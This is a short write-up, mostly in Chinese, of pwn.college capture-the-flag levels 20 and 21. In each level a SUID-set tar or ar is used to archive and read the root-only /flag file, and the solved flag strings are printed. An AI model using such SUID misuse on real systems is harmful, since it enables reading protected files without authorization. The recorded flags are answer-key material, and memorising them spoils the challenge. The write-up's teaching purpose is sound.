 ```
hacker@program-misuse-level-20:~$ sh file.sh
Welcome to ./babysuid_level20!

This challenge is part of a series of programs that
force you to understand different archive formats.

I just set the SUID bit on /usr/bin/tar.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level20) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/tar!
```
`tar`比较常见。
```
hacker@program-misuse-level-20:~$ tar cf /flag.tar /flag
tar: Removing leading `/' from member names
hacker@program-misuse-level-20:~$ ls /
bin   challenge  etc   flag.tar  lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        flag  home      lib32  libx32  mnt    proc  run   srv   tmp  var
hacker@program-misuse-level-20:~$ cat /flag.tar
flag0000400000000000000000000000007114456374677010423 0ustar  rootrootpwn.college{YNojFHYmMjDXxa2MP_mFcpOEIIo.0lM2EDL2QjMyMzW}
hacker@program-misuse-level-20:~$
```
好像都可以直接用cat看压缩包，那么就比较简单了

## level21 Forces you to understand different archive formats!

```
hacker@program-misuse-level-21:~$ sh file.sh
Welcome to ./babysuid_level21!

This challenge is part of a series of programs that
force you to understand different archive formats.

I just set the SUID bit on /usr/bin/ar.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level21) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/ar!
```
`ar`工具，集合很多文档存成一个文档的工具
```
hacker@program-misuse-level-21:~$ ar rs /flag.a /flag
ar: creating /flag.a
hacker@program-misuse-level-21:~$ cat /flag.a
!<arch>
flag/           0           0     0     644     57        `
pwn.college{0vq28yii-jRYCSQP_DtM3bkf8ee.01M2EDL2QjMyMzW}

hacker@program-misuse-level-21:~$
```
